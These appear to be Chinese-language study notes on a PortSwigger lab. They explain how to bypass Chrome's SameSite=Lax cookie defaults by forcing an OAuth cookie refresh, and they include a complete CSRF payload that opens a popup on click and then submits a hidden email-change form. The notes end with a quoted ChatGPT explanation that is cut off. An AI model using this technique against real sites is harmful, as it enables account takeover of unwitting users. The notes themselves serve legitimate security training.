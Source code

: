#### 绕过Lax限制

具有`Lax`samesite限制的Cookie通常不会在任何跨站点`POST`请求中发送，但也有一些例外。

如前所述，如果网站在设置 Cookie 时未包含 `SameSite` 属性，Chrome 会默认自动应用 `Lax` 限制。但是，为了避免破坏单点登录 （SSO） 机制，它实际上不会在顶级 `POST` 请求的前 120 秒内强制执行这些限制。因此，有两分钟的窗口期，用户可能容易受到跨站点攻击。

>此两分钟窗口不适用于使用该Samesite=Lax属性显式设置的cookie

尝试将攻击时间安排在这个短暂的窗口内是不切实际的。另一方面，如果你能在网站上找到一个"组合拳"，使你能够强制向受害者发出一个新的会话cookie，你可以在跟进主要攻击之前先发制人地刷新他们的cookie。例如，完成基于 OAuth 的登录流**可能会每次都生成一个新会话**，因为 OAuth 服务**不一定知道用户是否仍登录到目标站点**。

要触发 cookie 刷新而无需受害者再次手动登录，您需要使用顶层导航，以确保包含与当前 OAuth 会话相关的 cookie。这就带来了额外的挑战，因为您需要将用户重定向回您的网站，以便发起 CSRF 攻击。

或者，您可以从新选项卡触发 cookie 刷新，这样浏览器就不会在您进行最终攻击之前离开页面。这种方法的一个小障碍是浏览器会阻止弹出选项卡，除非它们通过手动交互打开。例如，默认情况下，浏览器会阻止以下弹出窗口：

```js
window.open('https://vulnerable-website.com/login/sso');
```

若要解决此问题，可以将语句包装在onclick事件处理程序中

```js
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```

这样，仅当用户单击页面上的某个位置时，才会调用该 `window.open()` 方法。

>[Lab: SameSite Lax bypass via cookie refresh](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh)
>
>这个实验就是利用了当访问`/social-login`会自动启动完整的OAuth流。而每次完成OAuth流时，目标站点都会设置一个新的会话cookie，即使已经登录也是如此。借助这个组合拳，实现绕过chrome默认的LAX限制。
>
>**payload**
>
>```js
><form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
><input type="hidden" name="email" value="pwned@portswigger.net">
></form>
><p>Click anywhere on the page</p>
><script>
>window.onclick = () => {
>   window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
>   setTimeout(changeEmail, 5000);
>}
>
>function changeEmail() {
>   document.forms[0].submit();
>}
></script>
>```
>
>**Mymind**
>
>逻辑就是先刷新cookie、后提交表单：用于绕过Lax限制。
>
>**chatgpt**
>
>
>这段 HTML 和 JavaScript 代码似乎是用于模拟一个安全漏洞场景的实例，其中页面上的点击事件（`window.onclick`）触发了一系列操作，包括打开一个新的窗口、等待一段时间后执行 `changeEmail` 函数。
>
>具体步骤如下：
>